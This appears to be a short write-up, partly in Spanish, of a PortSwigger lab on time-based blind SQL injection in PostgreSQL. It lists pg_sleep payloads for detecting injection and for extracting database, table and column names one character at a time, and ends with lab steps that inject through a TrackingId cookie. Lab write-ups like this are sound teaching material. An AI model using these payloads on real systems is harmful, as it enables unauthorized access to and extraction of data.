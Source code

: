 ```yaml
---
title: Blind SQL injection with time delays- portswigger
date: 2024-08-04
categories: [Write up, portswigger]
tags: [sql injection]      # TAG names should always be lowercase
---
```

    

## PostgreSQL Time Based

#### Identify time based

```c
select 1 from pg_sleep(5)

;(select 1 from pg_sleep(5))

||(select 1 from pg_sleep(5))
```
#### Database dump time based

```c
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

#### Table dump time based

```c
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

#### columns dump time based

```c
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1

select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1

```

```c
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))

AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

1. Visite la página principal de la tienda y utilice Burp Suite para interceptar y modificar la solicitud que contiene la `TrackingId`cookie.
2. Modificar la `TrackingId`cookie, cambiándola por:
    
    `TrackingId=x'||pg_sleep(10)--`
3. Envíe la solicitud y observe que la aplicación tarda 10 segundos en responder.

![20240805032520.png](20240805032520.png)

